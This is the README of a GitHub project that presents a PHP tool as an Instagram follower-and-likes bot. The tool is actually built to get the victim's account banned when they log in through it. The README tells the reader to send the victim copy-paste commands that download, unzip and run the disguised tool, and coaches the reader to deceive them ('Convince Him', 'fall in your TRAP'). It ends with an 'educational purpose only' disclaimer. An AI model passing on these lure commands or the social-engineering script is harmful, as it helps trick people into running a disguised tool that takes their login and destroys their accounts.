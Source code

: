 # Don't use this Tool!!

Don't ever Try this Tool Unless You know what are you Doing!!

Read this BLOG :- [BLOG LINK](https://cyberjeevi.blogspot.com/2021/08/get-yourself-banned-in-instagram.html)

![ScreenShot](https://user-images.githubusercontent.com/72810866/129549376-27c8be85-ee17-4fa6-9e35-53cd6fd18409.png)

This is What it Looks Like in Front View!!

But What's going inside??

If you run This Bot get Followers or Likes,

BOOM!! Your Account will be Vanished from Instagram!!

Wanna Know What's in Behind??

Read the ABOVE Blog Carefully!!

Wanna Make your Friends MAD!!
Use this Tool!!

Sometimes its a good tool to BREAK YOUR FRIENDSHIP!!

*****WORKS ON TERMUX ANDROID****

****pkg install php****

## Usage:

Send the Below 3 Commands to Victim:

Copy & Paste Command Below:
```
wget -O MegaBot.zip https://github.com/cyberjeevi/get-insta-ban/raw/main/MegaBot.zip
```
Unzip MegaBot:
```unzip MegaBot.zip```

Run Bot:
```php main.php```


That's All!! Login & Get Screwed UP!!



Convince Him By Telling Him , it'll get Followers and Likes!!
Smoooth!!

When he login to instagram using This Tool, His Account will be terminated By Instagram with no REASON!!



LAST BUT NOT LEAST!! 

Social-Engineering is an Art , you must know it to Make Someone Fall in your TRAP!!

****WarninG****

We are not Responsible for Anything you're Doing with this!!
This Tool is Meant for Educational Purpose Only!!


